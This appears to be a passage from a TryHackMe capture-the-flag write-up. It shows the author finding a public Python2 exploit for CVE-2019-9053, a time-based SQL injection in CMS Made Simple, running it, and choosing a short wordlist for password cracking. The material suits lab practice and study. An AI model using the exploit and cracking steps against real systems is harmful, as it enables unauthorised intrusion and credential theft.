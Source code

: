 # Vulnerability Analysis
## CVE-2019-9053
When I checked on `searchsploit` for the CMS version, I found an exploit written in Python2 for `CVE-2019-9053` and moved it to my current folder
![Alt text](/assets/img/tryhackme/ln/ln25.png)


```python
┌──(root㉿kali)-[/home/…/Documents/CTFs/TryHackMe/easyctf]
└─# ls
46635.py  direcotories.logs  exploit.py  ForMitch.txt  login.req  nmap.scans  nmap.scans.all
                                                                                                                                                       
┌──(root㉿kali)-[/home/…/Documents/CTFs/TryHackMe/easyctf]
└─# python2 46635.py                                                                            
[+] Specify an url target
[+] Example usage (no cracking password): exploit.py -u http://target-uri
[+] Example usage (with cracking password): exploit.py -u http://target-uri --crack -w /path-wordlist
[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.
```

To run the script, you had to supply url,wordlist and --crack parameters

Downloaded top 100 seclist instead of using rockyou.txt in which rockyou.txt had 14344392 creds 
